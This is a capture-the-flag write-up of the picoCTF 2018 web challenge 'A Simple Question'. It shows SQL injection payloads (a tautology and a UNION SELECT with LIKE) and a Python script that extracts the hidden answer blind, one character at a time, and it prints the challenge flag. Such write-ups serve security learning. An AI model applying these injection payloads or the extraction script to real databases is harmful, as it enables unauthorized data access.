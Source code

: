 # A Simple Question - 650 points

There is a website running at [link](http://2018shell1.picoctf.com:36052). Try to see if you can answer its question.

### Solution
###### Writeup by asinggih

Amongst the web exploit challenges that I manage to solve, this particular problem is the most frustrating one. 
We were only given a form with 1 input box to type to answer the question. And the question was _"What is the answer ?"_. Wtf.

<p align="center">
	<img src="../screenshots/sq_0.png">
</p>

Proceeding without typing anything took me to the next page

<p align="center">
	<img src="../screenshots/sq_1.png">
</p>

The web page displayed the SQL query that was executed at the backend with whatever input i placed earlier. 
Hence, I tried again using the `' or '1'='1` trick.

<p align="center">
	<img src="../screenshots/sq_2.png">
</p>

And then what? So close. I consulted the Piazza forum before proceeding further. One of the hints from the forum mentioned that if the actual answer is included in the output of the query, it will display __'You are so close.'__. 
Having that info, I knew that we can brute force it to get the answer. From my database class, I remembered that SQL has `LIKE` operation, where it will return fields containing the specified pattern. It was the perfect time to utilise it.
However, I didn't know how to implement it in this context, since I couldn't write another `SELECT` statement. 

After a lot of googling and reading about SQLi related materials, apparently the `UNION` function could be utilised to perform the SQLi. Basically, `UNION` function allows us to write another `SELECT` statement, and appends the result as the extra rows towards the result of the 1st `SELECT` statement. However, the result of the query after the `UNION` statement needs to have the same number of columns as the first part of the query.

Therefore, since the challenge displayed a full query of what's executed at the backend 

`SELECT * FROM answers WHERE answer=......` 

I could just utilise the same query for the `UNION` part. The actually input that I typed inside the input box for the answer is

`' UNION SELECT * FROM answers WHERE answer LIKE '%a%`

which make the executed query looked like this, at the backend:

`SELECT * FROM answers WHERE answer ='' UNION SELECT * FROM answers WHERE answer LIKE '%a%'`

and then voila! It worked! 

<p align="center">
	<img src="../screenshots/sq_3.png">
</p>

What my query did was to actually check if the answer contains the charcter `a`. Hence I did another test by running another query for the letter `b`.

<p align="center">
	<img src="../screenshots/sq_4.png">
</p> 

From these two trials, it can be seen that the answer contains the letter `a` but not `b`. For further testings, I wrote a python script to actually automate the process.

```python
#!/usr/bin/env python3


import requests

charset = "abcdefghijklmnopqrstuvwxyz1234567890"

ans = "" 
for c in charset:
	payload = "' UNION SELECT * FROM answers WHERE answer like '%{}%".format(c)
	resp = requests.post("http://2018shell1.picoctf.com:36052/answer2.php", data={"answer":payload}).text
	if "close" in resp:
		ans +=c

print("Characters used are: ")
print(ans) # now we have the characters used in the answer
print("----------------------------------------------------")
print()
```

What the script does is basically check which characters are in the answer from the given charset. The script knows if it's the correct character by checking if the word "close" is inside the response from the server. Now that we know the characters used in the answer:

```sh
❯ ./simple_question.py
Characters used are:
adhinstx14
----------------------------------------------------

```

I tried to input that as the answer, but as expected, it responsed with **Wrong**. I had to find the correct ordering of the characters used! To do this I extended the python script that I had provided above, to test the ordering of the characters.

```python
...

final_answer = ""
while True:		# Yes, we need to terminate this while loop manually. Lol.
	for c in ans:
		payload = "' UNION SELECT * FROM answers WHERE answer like '{}%".format(final_answer + c)
		resp = requests.post("http://2018shell1.picoctf.com:36052/answer2.php", data={"answer":payload}).text
		if "close" in resp:
			final_answer +=c
			print(final_answer)
			break

```

This was the output of the whole script. I had to terminate the program manually after there were no more characters appended after 10 seconds. 

```sh
❯ ./simple_question.py
Characters used are:
adhinstx14
----------------------------------------------------

4
41
41a
41an
41and
41ands
41andsi
41andsix
41andsixs
41andsixsi
41andsixsix
41andsixsixt
41andsixsixth
41andsixsixths

```

I input `41andsixsixths` into the input box, and guess what, **WRONG**.

I tried it again with all capitals. **WRONG**.

Maybe sentence case. Still **WRONG**.

Title case.

<p align="center">
	<img src="../screenshots/sq_5.png">
</p> 

**Note:**
I was pretty lucky on this one, because I just realised that my whole script won't work if the answer contains special characters!

## Flag
>picoCTF{qu3stions_ar3_h4rd_d3850719}

